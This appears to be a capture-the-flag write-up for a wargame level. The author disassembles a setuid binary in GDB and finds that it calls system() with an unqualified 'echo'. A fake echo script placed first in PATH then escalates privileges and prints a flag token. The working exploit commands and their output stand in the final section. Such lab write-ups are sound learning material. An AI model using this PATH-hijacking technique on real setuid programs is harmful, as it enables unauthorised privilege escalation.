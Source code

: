 # Level03 - File manipulation

As usual

```bash
$ whoami
level03
$ pwd
/home/user/level03
$ id
uid=2003(level03) gid=2003(level03) groups=2003(level03),100(users)
$ ls
level03
$ file level03 
level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
$ ./level03 
Exploit me
```

So, this time it's going to but executable manipulation. Well, the best tool for that is `GDB` so let's get to it.

For reminder, `GDB` is a debugger that can inspect what a program is doing at runtime.

Let's see what the code compile to

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	and    $0xfffffff0,%esp
   0x080484aa <+6>:	sub    $0x20,%esp
   0x080484ad <+9>:	call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:	mov    %eax,0x18(%esp)
   0x080484b6 <+18>:	call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:	mov    %eax,0x1c(%esp)
   0x080484bf <+27>:	mov    0x18(%esp),%eax
   0x080484c3 <+31>:	mov    %eax,0x8(%esp)
   0x080484c7 <+35>:	mov    0x18(%esp),%eax
   0x080484cb <+39>:	mov    %eax,0x4(%esp)
   0x080484cf <+43>:	mov    0x18(%esp),%eax
   0x080484d3 <+47>:	mov    %eax,(%esp)
   0x080484d6 <+50>:	call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:	mov    0x1c(%esp),%eax
   0x080484df <+59>:	mov    %eax,0x8(%esp)
   0x080484e3 <+63>:	mov    0x1c(%esp),%eax
   0x080484e7 <+67>:	mov    %eax,0x4(%esp)
   0x080484eb <+71>:	mov    0x1c(%esp),%eax
   0x080484ef <+75>:	mov    %eax,(%esp)
   0x080484f2 <+78>:	call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:	movl   $0x80485e0,(%esp)
   0x080484fe <+90>:	call   0x80483b0 <system@plt>
   0x08048503 <+95>:	leave  
   0x08048504 <+96>:	ret    
End of assembler dump.
```

With the help of `getegig` and `geteuid` and  `setresgid` and `setresuid`, we can assume it's doing privilege manipulation (which would also be in the theme of the project). The call `system` might also be interesting.

To inspect what is passed in the system call, we can run

```bash
(gdb) x/s 0x80485e0
0x80485e0:	 "/usr/bin/env echo Exploit me"
```

So it's the `system("/usr/bin/env echo Exploit me")` command that is used. Meaning it is the echo found in the $PATH that is run, not necessarily the `/bin/echo` command.

So let's fix this by using our very own echo that is definitely not a way for us to get the flag

```bash
$ mkdir /tmp/fakebin
$ echo -e '#!/bin/sh\ngetflag' > /tmp/fakebin/echo
$ chmod +x /tmp/fakebin/echo
$ export PATH=/tmp/fakebin:$PATH
$ echo $PATH
/tmp/fakebin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
$ whoami
level03
```


